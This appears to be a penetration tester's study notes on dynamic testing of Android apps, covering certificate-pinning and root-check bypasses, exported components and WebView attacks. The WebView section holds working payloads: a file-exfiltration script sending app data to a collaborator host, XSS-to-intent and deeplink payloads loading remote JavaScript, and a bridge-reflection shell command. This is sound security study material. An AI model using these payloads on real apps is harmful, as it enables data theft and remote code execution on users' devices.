


# DAST basics
The mobile application is analyzed as it runs on the device. Reviews include forensic analysis of the file system, assessment of the network traffic between the application and server and an assessment of the application’s inter-process communication (IPC).

>[!hint]
>Test the application both online and offline in order to evaluate if it behaves correctly.

>[!warning] 
>Rooted/Jailbroken device are almost mandatory

Main tasks include:
- Network Traffic Analysis
    - Insecure network communication
    - Man in the Middle (MiTM) required
- Backend Analysis
    - VA/PT on API and WebServices (classic Web Application Penetration Test)
- Client-side testing, e.g.
    - Sensitive Data Exposure
        - Inside logs
        - Inside non-censored activities
    - Insecure Configuration
    - Insecure Cryptography
    - Rooting detection

Key security testing areas:
- **Local Data Storage**, e.g. data leak to cloud storage, backups, logs, keyboard cache, db or local files
- **Authentication and Authorization**, e.g. bypassing, insecure or wrongly implemented framework
- **Interaction** with the **Mobile Platform**, e.g. IPC APIs misuse, sensitive data or functionality exposure to other apps running on the device.
- **Code Quality** and **Exploit Mitigation** e.g. injection and memory management issues, cross-site scripting
- **Anti-Tampering** and **Anti-Reversing**

# Security mechanism bypasses

## General application patching

Disassembling the app in order to remove the code responsible for the security check, and then [rebuild and sign the «patched» app](../Tools/APKTool.md#Rebuild%20files%20into%20APK).

>[!tip]
>If you can't re-build the APK once decompiled because of broken/misspelled resources, decompile only the application code using the `apktool d --no-res whos_that_pokemon.apk` command

Inject debug statements inside the smali code:
```java
const-string v1, "TEST"
invoke-static {v1, v2}, Landroid/util/Log;->i(Ljava/lang/String;Ljava/lang/String;)I
```

Dalvik opcodes:

```cardlink
url: http://pallergabor.uw.hu/androidblog/dalvik_opcodes.html
title: "Dalvik opcodes"
host: pallergabor.uw.hu
```


## Bypassing Certificate Pinning

>[!warning] 
>**Certificate Pinning**: validation of the certificate given by the back-end on the base of a public key embedded on the application. If Implemented, it blocks the analysis of HTTPS streams via interception proxy: the certificate of the proxy does not match the one embedded in the app.

Evasion techniques:
- **Device Trust Store**: install the proxy certificate into the device trust store (system certificate store or user certificate store based on the Android version and root availability). See [Push burpsuite certificate inside the system certificate store](../Tools/adb.md#Push%20burpsuite%20certificate%20inside%20the%20system%20certificate%20store)

- [Application patching](Dynamic%20application%20security%20testing%20(DAST).md#General%20application%20patching)
    - **`network_security_config.xml` +** Add **`android:networkSecurityConfig="@xml/network_security_config"`** to the **`<application>`** element in your application manifest.xml
    - **Apk-mitm**
- **Runtime Manipulation**: runtime execution modification in order to invalidate certificate pinning validation
    - [Xposed!](../Tools/Xposed!.md) framework with [TrustMeAlready](../Tools/Xposed!.md#TrustMeAlready) or [SSLUnpinning - Certificate Pinning Bypass](../Tools/Xposed!.md#SSLUnpinning%20-%20Certificate%20Pinning%20Bypass) (root required)
    - [Frida](../Tools/Frida.md)
    - [objection](../Tools/objection.md) (non-root, see the [following video](https://www.youtube.com/watch?v=qaJBWcueCIA&ab_channel=CorSecure))
    - Flutter-specific: https://blog.mindedsecurity.com/2024/05/bypassing-certificate-pinning-on.html
- **Improper Cert Management**: the server certificate might be stored in unsafe locations, (Documents directory, application files) therefore replaced with our own proxy certificate

>[!note]
>Android has 3 different certificate store:
>- The “system” one, which is also the default one checked by apps, is located in `/system/etc/security/cacerts/`. This certificate store is pre-populated when the OS is installed the first time and cannot be modified or altered without root privileges.
>- The “user” one, located in `/data/misc/user/0/cacerts-added/`, contains trusted CA certificates manually installed by the user of the device. Those certificates were trusted by default before Android 7, but now a day each application has to specifically opt to trust them.
>- Finally the latest certificate store is the “app itself”. Each application can include its own certificates, refusing to trust any other installed one, even those within the system certificate store. This technique is the so-called “certificate pinning”.


## Bypassing Anti-Root

>[!warning]
> **Anti-Root Mechanism**: the application checks if the device is rooted by looking at different file-system areas. If implemented, it might block a rooted/jailbroken device to run the app or it might hide some sensitive functionalities.

Evasion techniques:
- **App patching**: based on disassembling the app in order to remove the code responsible for root checks and then rebuild the «patched» app
    - **Smali** code **knowledge** is required
    - **disassembly tools** + [APKTool](../Tools/APKTool.md)
- **Runtime Manipulation**: runtime execution modification in order to invalidate root checks
    - **Rooted device** required
    - **Magisk Hide**
    - **Frida**

---

# General vulnerabilities

## Exported components

Verify for each exported component what it does and if exposes private information or vulnerable behaviors.
Some examples are:
- [Arbitrary file read using exported content provider](../../Play%20ground/Projects/Digital%20Private%20Vault/Digital%20Private%20Vault%20(summary).md#Arbitrary%20file%20read%20using%20exported%20content%20provider) [^file-read-content-provider-element]
- PIN/Authentication bypass using exported activities
- Intent redirection [^intent-redir-1][^intent-redir-2][^intent-redir-3]

[^file-read-content-provider-element]: [Element Android (<1.6.12) Sensitive file disclosure via share activity](https://www.shielder.com/advisories/element-android-sensitive-file-disclosure/), shielder.com
[^intent-redir-1]: [Attacking Android Antivirus Applications](https://blog.scrt.ch/2023/03/29/attacking-android-antivirus-applications/), blog.scrt.ch
[^intent-redir-2]: [Element Android (<1.6.12) Intent Redirection](https://www.shielder.com/advisories/element-android-intent-redirection/), shielder.com
[^intent-redir-3]: [Element Android CVE-2024-26131, CVE-2024-26132 - Never Take Intents From Strangers](https://www.shielder.com/blog/2024/04/element-android-cve-2024-26131-cve-2024-26132-never-take-intents-from-strangers/), shielder.com

## WebView attacks

**Remote WebView** **debugging** allow to access the device webview with your laptop **Chrome Developer Tools.** The **device** needs to be **accessible** by the PC (via USB, local emulator, local network...) and running the debuggable WebView, then access `chrome://inspect/#devices`:



In order to enable WebView Remote Debugging you can do something like:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
// Enable the WebView Debug depending on the debuggable flag inside the manifest
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

### File access 
Android provides different ways to enable/disable file read/access from a WebView. If managed incorrectly, those settings may allow you to read arbitrary data on the device, eventually also from the external SD.

Check for: 
- `getAllowFileAccess()` / `setAllowFileAccess(boolean)`[^setAllowFileAccess] 
- `getAllowUniversalAccessFromFileURLs` / `setAllowUniversalAccessFromFileURLs(boolean)` [^setAllowUniversalAccessFromFileURLs]
- `getAllowFileAccessFromFileURLs()` / `setAllowFileAccessFromFileURLs(boolen)` [^setAllowFileAccessFromFileURLs]
- `WebViewAssetLoader`

[^setAllowFileAccess]: https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess(boolean)
[^setAllowUniversalAccessFromFileURLs]: https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs(boolean)
[^setAllowFileAccessFromFileURLs]: https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccessFromFileURLs(boolean)

PoC to exfiltrate files:
```html
<script>
var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local file
function load(url) {
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function() {
	if (xhr.readyState === 4) {
		fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=' + btoa(xhr.responseText)); //send b64 encoded file to attacker
		}
	}
	xhr.open('GET', url, true);
		xhr.send('');
}
load(url)
</script>
```

### JavaScript Enabled

WebViews have Javascript **disabled by default**. The method `setJavaScriptEnabled()` [^setJavaScriptEnabled] can explicitly enabling or disabling it.

[^setJavaScriptEnabled]: https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled(boolean)

Android application often supports [Deeplinks](Android%20101.md#Deeplinks) and [Intent](Intent.md). If JavaScript is enabled inside a WebView vulnerable to [Cross-Site Scripting (XSS)](../Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md), it is possible to exploit it to send arbitrary intents [^intent-scheme], interact with any [Activity](Activity.md) and potentially obtain RCE.

Example from [TikTok for Android 1-Click RCE](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105):
```html
// send an intent from an XSS
<script>
location = "intent:#Intent;component=com.zhiliaoapp.musically/com.ss.android.ugc.aweme.favorites.ui.UserFavoritesActivity;package=com.zhiliaoapp.musically;action=android.intent.action.VIEW;end;"
</script>

// call a deep-link from an XSS (using WebView bridge implementation)
<script>
window.ToutiaoJSBridge.invokeMethod(JSON.stringify({  
"__callback_id": "0",  
"func": "openSchema",  
"__msg_type": "callback",  
"params": {  
"schema": "aweme://wiki?url=javascript://m.tiktok.com/%250adocument.write(%22%3Ch1%3EPoC%3C%2Fh1%3E%22)&disable_app_link=false"  
},  
"JSSDK": "1",  
"namespace": "host",  
"__iframe_url": "http://iframe.attacker.com/"  
}));
</script>
```

[^intent-scheme]: https://www.mbsd.jp/Whitepaper/IntentScheme.pdf

Example from [XSS + unsecure deeplink causing arbitrary application installation](https://ssd-disclosure.com/ssd-advisory-galaxy-store-applications-installation-launching-without-user-interaction/):
```html
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
  </head>
  <body>
    <a href="samsungapps://MCSLaunch?action=each_event&url=https://us.mcsvc.samsung.com/mcp25/devops/redirect.html?mcs_ru=a%26testMode=1%26%22id=%22%3Ca%2520id%253d%22%3e%3Csvg/onload%253dimport(%27https://xxxxxx.ngrok.io/open.js%27)%3e%22%3e">1 click</a>
  </body>
</html>
```

### JavaScript Bridge

Android offers a way for JavaScript executed in a WebView to **call and use native functions of an Android app** (annotated with `@JavascriptInterface`) by using the `addJavascriptInterface` [^addJavascriptInterface] method. This is known as a *WebView JavaScript bridge* or *native bridge*.

[^addJavascriptInterface]: https://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29

When you use `addJavascriptInterface`, you're **explicitly granting access** to the registered JavaScript Interface object **to all pages loaded within that WebView**.

*BrowserActivity*
```java
public class BrowserActivity extends ActivityC4970d implements View.OnClickListener, C5147d.InterfaceC5148a {
...
//Enabling Javascript Bridge exposing an object of the C5164c class
this.f5288V.addJavascriptInterface(new C5164c(this), "RoboTemplatesWebViewApp");
...
```

*C5164c.java*
```java
/* renamed from: e.d.a.a.a.a.h.o.c */
/* loaded from: classes.dex */
public class C5164c {
...
// Since Android 4.2 (JELLY_BEAN_MR1, API 17) methods not annotated with @JavascriptInterface are not visible from JavaScript
@JavascriptInterface
    public void showToast(String str) {
        Toast.makeText(this.f8808a, str, 1).show();
    }
...
```

PoC calls `showToast()` from an arbitrary HTML page with an arbitrary message:
```html
<html><body><script>RoboTemplatesWebViewApp.showToast("Meethack");</script></body></html>
```



>[!warning]
>In the case of an **Open Redirect to an attackers web page that access the Native Android Object**, if the access to the redirection is done via a mobile **browser** and **not using** the same **WebView**, the **browser won't be able to access the native Android object**.

Older android version may allow to obtain RCE using [Reflection technique](https://labs.withsecure.com/publications/webview-addjavascriptinterface-remote-code-execution), but modern application are no longer vulnerable.
```html
<!-- javascriptBridge is the name of the Android exposed object -->
<script>
function execute(cmd){
  return javascriptBridge.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mwr\" > /mnt/sdcard/mwr.txt']);
</script>
```


---

# Tools

## DAST Tools
- [adb](../Tools/adb.md#Dynamic%20analysis)
- [Frida](../Tools/Frida.md)
- [objection](../Tools/objection.md)
- [drozer](../Tools/drozer.md)
- [Xposed!](../Tools/Xposed!.md) + [Modules](../Tools/Xposed!.md#Modules)
- [Magisk](https://github.com/topjohnwu/Magisk) (on [Genymotion](https://support.genymotion.com/hc/en-us/articles/360011385178-How-to-install-Xposed-or-Magisk-Edxposed-with-Genymotion-Device-image-PaaS-))
- [WebView Remote Debugger](chrome://inspect/#devices)
- [Koodous](https://koodous.com/)
